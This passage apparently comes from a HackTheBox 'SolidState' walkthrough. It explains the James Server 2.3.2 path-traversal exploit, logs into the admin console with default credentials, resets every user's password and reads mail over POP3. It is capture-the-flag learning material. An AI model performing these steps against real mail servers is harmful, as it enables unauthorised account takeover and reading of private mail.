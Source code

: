 3. Try `linux/remote/35513.py`
	1. How does the exploit work?
		- Due the lack of input sanitization when creating a user in `James Server 2.3.2`, messages for a given user are stored in a directory partially defined by the username, by creating a user w/ path traversal payload (`../`) as its username, commands can be written to a given directory. 
		- The exploit could work w/ cronjob so that we get a shell after cronjob executes, however, it is not guarenteed to work due to how cron may run in certain Linux systems.
		- Preferably, we set the target to bash completion, and when the user logs into the system, the payload will be executed.
	2. The exploit requires us to login to `James Server 2.3.2` and also into the system in order for the payload to be executed.
	3. Lets enumerate `SMTP, POP3` before continuing w/ the exploit
4. Before exploiting `James Server 2.3`, access it w/ default creds to do further enumeration
	1. `HELP` to view commands
		![]({{ page.img_path }}Pasted%20image%2020220825025553.png)
		- `listusers`, we are able to list `users` in the system
		- `setpassword`, we are able to change any `user`'s password, allowing us to access their account through SMTP and read mails.
	2. View `users` on the system
		![]({{ page.img_path }}Pasted%20image%2020220825031059.png)
		- Users:
			- `james`
			- `thomas`
			- `john`
			- `mindy`
			- `mailadmin`
	3. Change all users password to `password`
		```
		setpassword james password
		setpassword thomas password
		setpassword john password
		setpassword mindy password
		setpassword mailadmin password
		```
		![]({{ page.img_path }}Pasted%20image%2020220825031413.png)

## Accessing the SMTP Server
1. Access SMTP server w/ `POP3`
	```
	┌──(root💀kali)-[~/htb/solidstate/10.10.10.51/exploit]
	└─# telnet 10.10.10.51 110
	Trying 10.10.10.51...
	Connected to 10.10.10.51.
	Escape character is '^]'.
	+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
	USER mindy
	+OK
	PASS password
	+OK Welcome mindy
	list
	+OK 2 1945
	1 1109
	2 836
	.
	```
	- `thomas` - No mails
	- `james` - No mail
	- `john` - No mails
	- `mindy` - Found mails
2. View mail w/ `thunderbird`